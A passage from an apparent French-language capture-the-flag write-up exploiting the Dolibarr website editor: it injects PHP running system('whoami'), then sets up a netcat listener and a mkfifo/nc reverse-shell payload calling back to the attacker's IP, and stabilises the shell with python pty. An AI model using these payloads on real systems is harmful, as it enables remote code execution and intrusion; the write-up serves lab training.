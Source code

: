 ### Preuve de concept (PoC)

**Étapes d'exploitation :**

1. **Navigation :** Website → Create New Website
2. **Création d'une page web** dans l'éditeur Dolibarr
3. **Édition du source HTML** de la page
4. **Injection du payload PHP :**

```php
<?PHP echo system("whoami"); ?>
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Résultat :</strong> Le code s'exécute avec les privilèges de l'utilisateur <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded">www-data</code>
    </p>
</div>

### Obtention d'un reverse shell

**Configuration du listener sur la machine attaquante :**

```bash
nc -lnvp 4455
```

**Injection du payload reverse shell dans l'éditeur Dolibarr :**

```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f"); ?>
```

**Déclenchement du payload :** Accéder à la page créée via le navigateur

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtenu en tant que www-data !
    </p>
</div>

## 🔧 Phase 5 — Stabilisation du shell et énumération

### Amélioration du shell

Le shell initial obtenu est instable et limité. On le stabilise avec Python :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160
```
